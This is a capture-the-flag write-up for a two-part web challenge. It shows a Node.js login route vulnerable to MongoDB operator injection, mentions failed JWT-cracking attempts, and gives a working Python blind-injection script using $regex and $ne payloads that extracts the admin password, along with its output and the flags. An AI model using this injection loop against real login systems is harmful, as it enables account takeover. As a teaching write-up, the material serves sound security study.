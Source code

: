 No Sequels & No Sequels 2
========
**Category**: web  **Points**: 50 & 80

Challenge Description
------------
We were directed to a website with the following source code

```
app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: false }));

...

router.post('/login', verifyJwt, function (req, res) {
    // monk instance
    var db = req.db;

    var user = req.body.username;
    var pass = req.body.password;

    if (!user || !pass){
        res.send("One or more fields were not provided.");
    }
    var query = {
        username: user,
        password: pass
    }

    db.collection('users').findOne(query, function (err, user) {
        if (!user){
            res.send("Wrong username or password");
            return
        }

        res.cookie('token', jwt.sign({name: user.username, authenticated: true}, secret));
        res.redirect("/site");
    });
});
```

Solution
-----------------

The hint `MongoDB is a safer alternative to SQL, right?` points us to MongoDB NoSQL injection.

In a NoSQL injection, we can abuse the operators such as $gt or $ne and perform logical evaluations with the data returned from the database query.

Note: We have to change the Content-Type header to application/json to evaluate JSON data.

![screenshot1](req.png)

However, I was not able to login because of the JWT token issues. I have tried performing some JWT token attacks using jwt2john.py (https://github.com/Sjord/jwtcrack/blob/master/jwt2john.py)
to crack the token secret, as well as replacing the HS256 algorithm as None however none were successful.

Fortunately, I could still perform a blind injection attack

![screenshot2](req2.png)

Burp > Copy as Requests and add a loop

```
import requests

burp0_url = "https://nosequels.2019.chall.actf.co:443/login"
burp0_cookies = {"token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhdXRoZW50aWNhdGVkIjpmYWxzZSwiaWF0IjoxNTU2MTg3MjA0fQ.VPJLL2Cy4893djpyDGaMZ9P_Pv8LOFn8xxH4T4EJWi0"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://nosequels.2019.chall.actf.co/login", "Connection": "close", "Upgrade-Insecure-Requests": "1", "Content-Type": "application/json"}

chars = "abcdefghijklmnopqrstuvwxyz0123456789_"
password = ''

while 1:
  for i in chars:
    burp0_json={"password": {"$regex": "^" + password + i}, "username": {"$ne": "test"}}
    r = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, json=burp0_json)
    if 'Wrong' not in r.text:
      password += i
      print password
```

We now get the password:
```
# python blind.py 
c
co
con
cong
congr
congra
congrat
congrats
congratsy
congratsyo
congratsyou
congratsyouw
congratsyouwi
congratsyouwin
```

After doing the same with username, we obtain the credentials `admin:congratsyouwin`and were able to login and solve the two challenges.

flag1: `actf{no_sql_doesn't_mean_no_vuln}`

flag2: `actf{still_no_sql_in_the_sequel}`
